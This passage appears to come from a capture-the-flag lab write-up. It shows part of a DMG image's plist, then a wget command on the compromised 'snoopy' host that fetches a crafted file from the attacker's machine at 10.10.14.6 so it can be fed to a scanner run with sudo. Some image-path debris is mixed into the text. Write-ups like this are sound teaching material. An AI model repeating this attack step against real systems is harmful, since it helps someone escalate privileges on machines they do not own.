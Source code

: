                                     <key>Attributes</key>
                                    <string>0x0050</string>
                                    <key>CFName</key>
                                    <string> (Apple_Free : 3)</string>
                                    <key>Data</key>
                                    <data>...[snip]...</data>
                                    <key>ID</key>
                                    <string>2</string>
                                    <key>Name</key>
                                    <string> (Apple_Free : 3)</string>
                            </dict>
                    </array>
                    <key>plst</key>
                    <array>
                            <dict>
                                    <key>Attributes</key>
                                    <string>0x0050</string>
                                    <key>Data</key>
                                    <data>...[snip]...</data>
                                    <key>ID</key>
                                    <string>0</string>
                                    <key>Name</key>
                                    <string></string>
                            </dict>
                    </array>
            </dict>
    </dict>
    </plist>
                               



That's very long. I'll note two `key` values, `blkx` and `plist`, each
having an `<array>` with a `<dict>` inside..

#### Upload and Scan

I'll upload this file into the `scanfiles` directory:



    sbrown@snoopy:~/scanfiles$ wget 10.10.14.6/notepad.dmg
    --2023-05-10 20:47:58--  http://10.10.14.6/notepad.dmg
    Connecting to 10.10.14.6:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 10471167 (10.0M) [application/x-apple-disk![![image*]
    Saving to: ‘notepad.dmg’

    notepad.dmg                                          100%[==============>]   9.99M  8.53MB/s    in 1.2s    

    2023-05-10 20:47:59 (8.53 MB/s) - ‘notepad.dmg’ saved [10471167/10471167]



I'll scan it using the syntax allowed by `sudo`. This generates a ton of
output. I'll search around in it, looking for the "dmg" parser, and find
this:
